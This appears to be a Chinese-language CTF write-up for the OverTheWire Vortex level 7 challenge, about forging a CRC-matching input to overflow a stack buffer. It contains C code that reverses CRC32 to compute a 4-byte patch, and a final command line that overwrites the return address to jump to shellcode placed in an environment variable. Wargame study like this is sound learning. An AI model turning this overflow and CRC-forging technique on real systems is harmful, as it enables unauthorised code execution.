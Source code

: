 ```yaml
---
title: vortex7
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

这道题要求构造一个符合crc的输入来造成溢出。

关于CRC，[这里][1]有一篇详细的文章

为了reverse CRC，我们先找到所用的crc table在文件中的位置，然后将其dump出来：

<pre>$ hexdump -v -n 1024 -s 1504 vortex7 -e '"0x" 1/4 "%08x" ","' | fold -b44</pre>

此外，我们还需要根据最高位字符来构造reverse table。用下面的代码构造并打印reverse table

{% highlight c %}
int main (int argc, char *argv[]) {
    unsigned int *revTable = (unsigned int *)malloc(256*sizeof(unsigned int));
    size_t i;
    for(i=0; i<256; ++i) {
        unsigned int value = CRCTable[i];
        unsigned int top = (value >> 24);
        revTable[top] = i;
    }

    for(i=0; i<256; ++i) {
        printf("0x%02x,", revTable[i]);
    }
    return 0; 
}
{% endhighlight %}


然后我们有下面的代码，他会得到4bytes的patch，当patch加在argv[1]之后时，新的CRC值会变为我们需要的

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned int CRCTable[] = {
    0x00000000,0x77073096,0xee0e612c,0x990951ba,
    0x076dc419,0x706af48f,0xe963a535,0x9e6495a3,
    0x0edb8832,0x79dcb8a4,0xe0d5e91e,0x97d2d988,
    0x09b64c2b,0x7eb17cbd,0xe7b82d07,0x90bf1d91,
    0x1db71064,0x6ab020f2,0xf3b97148,0x84be41de,
    0x1adad47d,0x6ddde4eb,0xf4d4b551,0x83d385c7,
    0x136c9856,0x646ba8c0,0xfd62f97a,0x8a65c9ec,
    0x14015c4f,0x63066cd9,0xfa0f3d63,0x8d080df5,
    0x3b6e20c8,0x4c69105e,0xd56041e4,0xa2677172,
    0x3c03e4d1,0x4b04d447,0xd20d85fd,0xa50ab56b,
    0x35b5a8fa,0x42b2986c,0xdbbbc9d6,0xacbcf940,
    0x32d86ce3,0x45df5c75,0xdcd60dcf,0xabd13d59,
    0x26d930ac,0x51de003a,0xc8d75180,0xbfd06116,
    0x21b4f4b5,0x56b3c423,0xcfba9599,0xb8bda50f,
    0x2802b89e,0x5f058808,0xc60cd9b2,0xb10be924,
    0x2f6f7c87,0x58684c11,0xc1611dab,0xb6662d3d,
    0x76dc4190,0x01db7106,0x98d220bc,0xefd5102a,
    0x71b18589,0x06b6b51f,0x9fbfe4a5,0xe8b8d433,
    0x7807c9a2,0x0f00f934,0x9609a88e,0xe10e9818,
    0x7f6a0dbb,0x086d3d2d,0x91646c97,0xe6635c01,
    0x6b6b51f4,0x1c6c6162,0x856530d8,0xf262004e,
    0x6c0695ed,0x1b01a57b,0x8208f4c1,0xf50fc457,
    0x65b0d9c6,0x12b7e950,0x8bbeb8ea,0xfcb9887c,
    0x62dd1ddf,0x15da2d49,0x8cd37cf3,0xfbd44c65,
    0x4db26158,0x3ab551ce,0xa3bc0074,0xd4bb30e2,
    0x4adfa541,0x3dd895d7,0xa4d1c46d,0xd3d6f4fb,
    0x4369e96a,0x346ed9fc,0xad678846,0xda60b8d0,
    0x44042d73,0x33031de5,0xaa0a4c5f,0xdd0d7cc9,
    0x5005713c,0x270241aa,0xbe0b1010,0xc90c2086,
    0x5768b525,0x206f85b3,0xb966d409,0xce61e49f,
    0x5edef90e,0x29d9c998,0xb0d09822,0xc7d7a8b4,
    0x59b33d17,0x2eb40d81,0xb7bd5c3b,0xc0ba6cad,
    0xedb88320,0x9abfb3b6,0x03b6e20c,0x74b1d29a,
    0xead54739,0x9dd277af,0x04db2615,0x73dc1683,
    0xe3630b12,0x94643b84,0x0d6d6a3e,0x7a6a5aa8,
    0xe40ecf0b,0x9309ff9d,0x0a00ae27,0x7d079eb1,
    0xf00f9344,0x8708a3d2,0x1e01f268,0x6906c2fe,
    0xf762575d,0x806567cb,0x196c3671,0x6e6b06e7,
    0xfed41b76,0x89d32be0,0x10da7a5a,0x67dd4acc,
    0xf9b9df6f,0x8ebeeff9,0x17b7be43,0x60b08ed5,
    0xd6d6a3e8,0xa1d1937e,0x38d8c2c4,0x4fdff252,
    0xd1bb67f1,0xa6bc5767,0x3fb506dd,0x48b2364b,
    0xd80d2bda,0xaf0a1b4c,0x36034af6,0x41047a60,
    0xdf60efc3,0xa867df55,0x316e8eef,0x4669be79,
    0xcb61b38c,0xbc66831a,0x256fd2a0,0x5268e236,
    0xcc0c7795,0xbb0b4703,0x220216b9,0x5505262f,
    0xc5ba3bbe,0xb2bd0b28,0x2bb45a92,0x5cb36a04,
    0xc2d7ffa7,0xb5d0cf31,0x2cd99e8b,0x5bdeae1d,
    0x9b64c2b0,0xec63f226,0x756aa39c,0x026d930a,
    0x9c0906a9,0xeb0e363f,0x72076785,0x05005713,
    0x95bf4a82,0xe2b87a14,0x7bb12bae,0x0cb61b38,
    0x92d28e9b,0xe5d5be0d,0x7cdcefb7,0x0bdbdf21,
    0x86d3d2d4,0xf1d4e242,0x68ddb3f8,0x1fda836e,
    0x81be16cd,0xf6b9265b,0x6fb077e1,0x18b74777,
    0x88085ae6,0xff0f6a70,0x66063bca,0x11010b5c,
    0x8f659eff,0xf862ae69,0x616bffd3,0x166ccf45,
    0xa00ae278,0xd70dd2ee,0x4e048354,0x3903b3c2,
    0xa7672661,0xd06016f7,0x4969474d,0x3e6e77db,
    0xaed16a4a,0xd9d65adc,0x40df0b66,0x37d83bf0,
    0xa9bcae53,0xdebb9ec5,0x47b2cf7f,0x30b5ffe9,
    0xbdbdf21c,0xcabac28a,0x53b39330,0x24b4a3a6,
    0xbad03605,0xcdd70693,0x54de5729,0x23d967bf,
    0xb3667a2e,0xc4614ab8,0x5d681b02,0x2a6f2b94,
    0xb40bbe37,0xc30c8ea1,0x5a05df1b,0x2d02ef8d
};

unsigned int revTable[] = {
    0x00,0x41,0xc3,0x82,
    0x86,0xc7,0x45,0x04,
    0x4d,0x0c,0x8e,0xcf,
    0xcb,0x8a,0x08,0x49,
    0x9a,0xdb,0x59,0x18,
    0x1c,0x5d,0xdf,0x9e,
    0xd7,0x96,0x14,0x55,
    0x51,0x10,0x92,0xd3,
    0x75,0x34,0xb6,0xf7,
    0xf3,0xb2,0x30,0x71,
    0x38,0x79,0xfb,0xba,
    0xbe,0xff,0x7d,0x3c,
    0xef,0xae,0x2c,0x6d,
    0x69,0x28,0xaa,0xeb,
    0xa2,0xe3,0x61,0x20,
    0x24,0x65,0xe7,0xa6,
    0xea,0xab,0x29,0x68,
    0x6c,0x2d,0xaf,0xee,
    0xa7,0xe6,0x64,0x25,
    0x21,0x60,0xe2,0xa3,
    0x70,0x31,0xb3,0xf2,
    0xf6,0xb7,0x35,0x74,
    0x3d,0x7c,0xfe,0xbf,
    0xbb,0xfa,0x78,0x39,
    0x9f,0xde,0x5c,0x1d,
    0x19,0x58,0xda,0x9b,
    0xd2,0x93,0x11,0x50,
    0x54,0x15,0x97,0xd6,
    0x05,0x44,0xc6,0x87,
    0x83,0xc2,0x40,0x01,
    0x48,0x09,0x8b,0xca,
    0xce,0x8f,0x0d,0x4c,
    0x95,0xd4,0x56,0x17,
    0x13,0x52,0xd0,0x91,
    0xd8,0x99,0x1b,0x5a,
    0x5e,0x1f,0x9d,0xdc,
    0x0f,0x4e,0xcc,0x8d,
    0x89,0xc8,0x4a,0x0b,
    0x42,0x03,0x81,0xc0,
    0xc4,0x85,0x07,0x46,
    0xe0,0xa1,0x23,0x62,
    0x66,0x27,0xa5,0xe4,
    0xad,0xec,0x6e,0x2f,
    0x2b,0x6a,0xe8,0xa9,
    0x7a,0x3b,0xb9,0xf8,
    0xfc,0xbd,0x3f,0x7e,
    0x37,0x76,0xf4,0xb5,
    0xb1,0xf0,0x72,0x33,
    0x7f,0x3e,0xbc,0xfd,
    0xf9,0xb8,0x3a,0x7b,
    0x32,0x73,0xf1,0xb0,
    0xb4,0xf5,0x77,0x36,
    0xe5,0xa4,0x26,0x67,
    0x63,0x22,0xa0,0xe1,
    0xa8,0xe9,0x6b,0x2a,
    0x2e,0x6f,0xed,0xac,
    0x0a,0x4b,0xc9,0x88,
    0x8c,0xcd,0x4f,0x0e,
    0x47,0x06,0x84,0xc5,
    0xc1,0x80,0x02,0x43,
    0x90,0xd1,0x53,0x12,
    0x16,0x57,0xd5,0x94,
    0xdd,0x9c,0x1e,0x5f,
    0x5b,0x1a,0x98,0xd9
};

//start is the init CRC value
unsigned int computeCRC(unsigned int start, unsigned char *str, size_t len) {
    size_t i;
    for(i=0; i<len; ++i) {
        start = (start >> 8) ^ (CRCTable[(0xff & (start ^ str[i]))]);
    }
    return start;
}

unsigned int reverseCRC(unsigned int start, unsigned end) {
    unsigned char buf[8];
    unsigned int *pos = buf;

    *pos = start;
    *(pos+1) = end;

    int i = 0;
    for(i=0; i<4; ++i) {
        unsigned char topByte = buf[7-i];
        unsigned int idx = revTable[topByte];
        unsigned int value = CRCTable[idx];
        pos = buf + 4 - i;
        *pos = (*pos) ^ value;
        buf[3-i] = buf[3-i] ^ idx;
    }
    pos = buf;
    return *pos;
}

int main (int argc, char *argv[]) {
    if(argc != 3) {
        printf("usage: %s <string> <CRC>\n", argv[0]);
        return 0;
    }

    size_t len = strlen(argv[1]);
    char *cat = (char *)malloc(len+5);
    strncpy(cat, argv[1], len);

    //compute the current CRC
    unsigned int current = computeCRC(0, argv[1], len);
    printf("current is 0x%08x\n", current);
    unsigned int dest = (unsigned int)strtoul(argv[2], NULL, 16);
    printf("dest is 0x%08x\n", dest);

    //compute the patch
    unsigned int patch = reverseCRC(current, dest);
    unsigned char *patchChar = &patch;
    printf("patch is \\x%02x\\x%02x\\x%02x\\x%02x\n", patchChar[0], patchChar[1], patchChar[2], patchChar[3]);

    strncat(cat, patchChar, 4);

    unsigned int new = computeCRC(0, cat, len+4);
    printf("verify: new CRC is 0x%08x\n", new);
    return 0;
}
{% endhighlight %}


看反汇编，知道要覆盖完返回地址需要78bytes，在加上4bytes的patch共82bytes。将shellcode放到环境变量，得到其地址，然后可由上计算出patch。最后运行

<pre>$ /vortex/vortex7 `perl -e 'print "A"x74 . "\xf9\xd8\xff\xff" . "\x1c\xdd\x03\x32"'`</pre>


 [1]: http://www.woodmann.com/fravia/crctut1.htm "http://www.woodmann.com/fravia/crctut1.htm"